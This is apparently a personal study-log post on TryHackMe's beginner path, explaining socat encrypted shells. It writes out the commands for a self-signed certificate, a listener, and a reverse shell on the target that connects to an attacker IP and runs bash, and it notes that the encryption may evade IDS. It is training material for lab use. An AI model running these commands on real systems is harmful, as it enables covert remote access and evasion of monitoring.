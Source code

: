 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-28 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-28-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-10-28

# What the Shell?

## Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```
# Generate a self-signed certificate.
#
openssl req -newkey rsa:2048 \
-nodes \
-keyout shell.key \
-x509 \
-days 362 \
-out shell.crt
# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem
# Start a listener.
#
socat \
OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -
# Start the reverse shell on the target.
#
socat \
OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
EXEC:"/bin/bash -li"
```

The PEM file needs to be generated on whichever system is listening, so for a bind shell the first two steps will need to be done on the target instead of the attacker. The `verify=0` directive turns off certificate validation, so this isn’t a “secure” connection in the sense that it’s been _authenticated_, but it is secure in the sense that it’s _encrypted_.

Since Windows doesn’t have an OpenSSL binary installed by default, it will generally be necessary to copy the PEM file across from the attacker.
